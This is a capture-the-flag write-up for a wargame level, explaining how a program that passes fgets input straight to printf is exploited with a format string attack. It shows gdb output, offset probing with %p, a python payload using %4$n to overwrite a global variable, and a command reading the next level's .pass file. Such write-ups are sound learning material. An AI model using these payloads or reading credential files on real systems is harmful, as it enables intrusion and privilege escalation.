 After running the program, we observed that it reads from stdin.

We found a global variable called `m` initialized to `0` and a function named `v()`.

The program calls four C functions (`fgets`, `printf`, `fwrite`, `system`) and compares the value of the `m` variable to `0x40` (64).

Since the program uses `fgets` to read from stdin, it is protected from buffer overflow. However, it passes the returned value to the printf function.

According to the manual page of printf, the bugs section states:
>Code such as printf(foo); often indicates a bug, since foo may contain a % character. If foo comes from untrusted user input, it may contain %n, causing the printf() call to write to memory and creating a security hole.

We will exploit the program using a "Format String Vulnerability Exploitation" approach. For more information, refer to:
- https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

First, we need to extract the address of the `m` variable:
```
(gdb) info var
Non-debugging symbols:
[...]
0x0804988c  m
```
Next, we need to determine the offset:
```
./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```
The offset is 4. Now we construct the payload for exploitation:
```
$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/payload
$ cat /tmp/payload - | ./level3
$ cat /home/user/level4/.pass
```